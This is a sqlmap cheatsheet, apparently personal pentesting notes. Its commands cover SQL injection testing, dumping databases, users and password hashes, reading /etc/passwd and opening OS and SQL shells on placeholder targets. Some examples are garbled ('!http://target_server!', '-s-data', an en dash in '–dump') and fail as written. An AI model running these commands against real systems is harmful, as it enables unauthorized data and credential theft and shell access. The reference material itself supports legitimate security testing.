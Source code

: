 ```yaml
---
title: Sqlmap Cheatsheet  
date: 2022-12-04 22:35:00 +00:00
categories: [cheatsheet, tools]
tags: [tools]     # TAG names should always be lowercase
---
```


# Burp + sqlmap 

Save a request in burp (right click > save to file) 

Run with sqlmap 

```
sqlmap -r sqlmap.txt --batch
```
# Generic

```
-u "<URL>" 
-p "<PARAM TO TEST>" 
--user-agent=SQLMAP 
--random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char
```

# Internals

```
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```

# Reafile 

```
--file-read=/etc/passwd
```

# Specify param to exploit

```
sqlmap -u "http://target_server/param1=value1&param2=value2" -p param1
```

# Use POST requests

```
sqlmap -u "http://target_server" --data=param1=value1&param2=value2
```

# Access with authenticated session

```
sqlmap -u "http://target_server" --data=param1=value1&param2=value2 -p param1 cookie='my_cookie_value'
```

# Basic authentication

```
sqlmap -u !http://target_server! -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password
```

# Evaluating response strings

```
sqlmap -u "http://target_server/" --string="This string if query is TRUE"

sqlmap -u "http://target_server/" --not-string="This string if query is FALSE"
```

# List all databases at the site

```
sqlmap -u "http://testsite.com/login.php" --dbs
```

# List all tables in a specific database

```
sqlmap -u "http://testsite.com/login.php" -D site_db --tables
```

# List all columns in a table

```
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns
```

# Dump the contents of a DB table

```
sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump
```

# Shell 

Get OS Shell
```
--os-shell
```

Get SQL Shell

```
--sql-shell
```
